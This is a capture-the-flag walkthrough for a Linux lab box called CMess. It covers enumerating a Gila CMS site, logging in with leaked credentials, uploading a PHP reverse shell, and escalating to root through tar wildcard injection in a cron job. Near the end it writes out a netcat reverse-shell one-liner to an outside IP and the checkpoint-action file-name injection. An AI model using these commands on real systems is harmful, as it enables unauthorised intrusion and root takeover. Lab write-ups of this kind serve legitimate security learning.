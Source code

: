 ## CMess
### OS = LINUX
### DIFFICULTY = MEDIUM

#### nmap scan
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8bd8e60b-d4a1-44c0-b81b-258334a1a04a)

we have 2 open ports

let's start our enumeration from port 80

going over to the web page shows that it is running GILA cms

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/cf983be5-438e-4287-88dc-0ca136cafe3f)

so, let's add the domain "cmess.thm" to our /etc/hosts file

Then bruteforcing subdomains using ffuf gives this

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f313a0bf-71c3-4343-83d5-c49bc8248bbc)

which shows that there is subdomain "dev.cmess.thm"

Also add the subdomain to the /etc/hosts file too

let's go over to the web we have some creds which you can see below
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/061713fc-1194-40d4-8d11-72ff242bccaa)

so, let's try the credential on the admin login page 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ca8084ad-7b89-4c18-a839-6f3837e1fa08)

wow it works and we can see the GILA CMS version

so, moving on to the content page on the dashboard for us to upload a reverse shell script in the file manager

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/41f5c718-cab6-4e97-9f97-7916bf6123d2)
so we're able to upload a php reverse shell

And set ur ncat listener then visit the assets directory to load the uploaded shell

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e84cd810-3054-4a73-981c-fca53b24de0e)

it spawned us a shell on the target system

we have our sweet reverse shell. so, stabilize it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c3f9e157-3537-45e9-a1d4-35b28bc19cc8)
 so, we can see our privilege is limited
 let's try escalating privilege

 <h2>Privilege escalation</h2>

   Uploading linpeas on the box 
  
   we found a password back up file at the /opt dir
  
   it contains the password for user "andre"
  
   ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e547fd57-3b7e-468b-bcbe-4d71204d83ca)

 so sshing into the server using the username and password

 we're able to read the user flag now

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c95df228-8832-4e61-8115-9639ab8bdc81)

 Okay, so from this we know that there's a backup service running on the server, we can also see this from the linpeas report, and we also found the backed up file in the /tmp folder earlier when we were looking for user priv-esc. We can in fact see the exact command that is being run when the backup happens .
```  */2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz * ```
 There's a way to exploit tar if it uses wildcards, there is more info on it in this article
 [link](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) .

The name of the attack is Wildcard injection, and it's a way to make tar run an executable for us. Since the backup service is running as root, if we make this executable a reverse shell, then we got ourselves a root shell. 
set your netcat listener.

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f" > shell.sh```

```2. echo ""> "--checkpoint-action=exec=sh shell.sh"```

```3. echo ""> --checkpoint=1```
   
And we are root lol ;)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a012c48a-9f56-4d95-ad31-b57caef3835b)

Thanks hope you had fun!


 For any enquiries shoot me a dm on twitter @  [link](https://twitter.co/0x_venus)


<a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>







